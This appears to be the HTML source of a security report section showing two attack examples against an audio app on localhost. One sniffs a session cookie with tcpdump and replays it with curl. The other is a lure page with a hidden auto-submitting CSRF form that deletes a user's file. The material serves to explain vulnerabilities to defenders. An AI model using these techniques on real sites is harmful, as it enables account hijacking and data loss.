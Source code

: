         <!-- Real-World Attack Examples -->
        <div class="vulnerability critical">
            <div class="vuln-title">
                🌍 Real-World Attack Examples
                <span class="severity-badge critical-badge">CRITICAL</span>
            </div>
            
            <div class="attack-scenario">
                <div class="scenario-title">Example 1: Coffee Shop Wi-Fi Attack</div>
                <div class="code-block">
<span class="code-comment">// Attacker sets up packet capture</span>
<span class="code-keyword">sudo</span> tcpdump -i wlan0 -A | grep <span class="code-string">"connect.sid"</span>

<span class="code-comment">// Captures user's session cookie over HTTP</span>
Cookie: connect.sid=s%3Aabcd1234-5678-90ef-ghij-klmnopqrstuv.xyz789

<span class="code-comment">// Attacker uses curl to hijack session</span>
curl -H <span class="code-string">"Cookie: connect.sid=s%3Aabcd1234-5678-90ef-ghij-klmnopqrstuv.xyz789"</span> \
     http://localhost:5000/api/audio

<span class="code-comment">// Result: Full access to victim's audio files</span>
                </div>
            </div>
            
            <div class="attack-scenario">
                <div class="scenario-title">Example 2: CSRF File Deletion Attack</div>
                <div class="code-block">
<span class="code-comment">// Malicious website HTML</span>
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;&lt;title&gt;Free Music Downloads&lt;/title&gt;&lt;/head&gt;
&lt;body&gt;
  &lt;h1&gt;Click here for free music!&lt;/h1&gt;
  
  <span class="code-comment">&lt;!-- Hidden malicious form --&gt;</span>
  &lt;form id=<span class="code-string">"malicious"</span> action=<span class="code-string">"http://localhost:5000/api/audio/123"</span> method=<span class="code-string">"POST"</span>&gt;
    &lt;input type=<span class="code-string">"hidden"</span> name=<span class="code-string">"_method"</span> value=<span class="code-string">"DELETE"</span>&gt;
  &lt;/form&gt;
  
  &lt;script&gt;
    <span class="code-comment">// Auto-submit when user clicks anywhere</span>
    document.onclick = <span class="code-keyword">function</span>() {
      document.getElementById(<span class="code-string">'malicious'</span>).submit();
    };
  &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;

<span class="code-comment">// Result: User's audio file deleted without their knowledge</span>
                </div>
            </div>
            